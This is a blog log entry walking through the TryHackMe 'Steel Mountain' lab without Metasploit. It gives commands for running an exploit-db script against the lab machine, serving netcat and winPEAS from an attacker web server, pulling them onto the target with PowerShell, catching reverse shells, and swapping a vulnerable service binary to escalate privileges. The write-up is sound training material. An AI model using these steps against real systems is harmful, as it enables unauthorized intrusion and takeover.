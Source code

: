 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-11-08 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-11-08-tryhackme-complete-beginner.html
author: 100007
---
```


# Steel Mountain

Things got busy yesterday and I had to push finishing this section off a day. The machine’s new IP address is 10.10.174.199.

## Access and Escalation Without Metasploit

The alternate exploit we’re going to run for this is located at /usr/share/exploitdb/exploits/windows/remote/39161.py on Kali Linux. To set this up, we’re going to use a quick-n-dirty Python web server containing a statically-compiled version of netcat. This needs to be running on port 80 for the exploit to work (don’t forget to punch a hole through the firewall for this!).

```
mkdir 1
cd 1
cp /usr/share/windows-binaries/nc.exe .
curl -O https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASexe/binaries/x64/Release/winPEASx64.exe
sudo python3 -m http.server 80
```

Ready our listener in another terminal. Note that WinPEAS generates _a lot_ of output, so we need to increase TMUX history buffer (`set -g history-limit 8192`) in order to be able to capture all of it. This needs to be set _before_ creating the window that we’re going to catch our reverse shell in!

```
nc -lvnp 4444
```

Copy, setup, and run the exploit!

```
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
nano 39161.py # Change ip_addr and local_port
python2 39161.py 10.10.174.199 8080
python2 39161.py 10.10.174.199 8080
```

Once we’re in (the exploit needs to be run twice to work), we need to grab and run winPEASx64.exe from our web server.

```
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/winPEASx64.exe -OutFile winPEASx64.exe"
.\winPEASx64.exe
```

Interestingly, while WinPEAS notes that ASCServie.exe is vulnerable to an overwrite, it looks like it misses the fact that the compromised user can restart it. That said, WinPEAS does display _a lot_ more information than PowerUp, so it might be useful to run _both_…

Useful PowerShell commands:

- `Get-Service` - list all services, or drill down on a particular service.
- `sc.exe stop $SERVICE`/`sc.exe start $SERVICE` - stop/start $SERVICE.

Putting this all together, we can replicate yesterday’s compromise by:

```
powershell -c "Invoke-WebRequest -Uri http://10.13.26.40/ASCService.exe -OutFile ASCService.exe"
sc.exe stop AdvancedSystemCareService9
copy "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
	ASCService.exe.bak
copy /Y ASCService.exe
	"C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc.exe start AdvancedSystemCareService9
```

Where ASCService.exe is the same compromise as last time, and we again catch the reverse shell using:

```
nc -lvnp 4443
```

- [2021-11-07 - TryHackMe: Complete Beginner](https://cardboard-iguana.com/log/2021-11-07-tryhackme-complete-beginner.html)
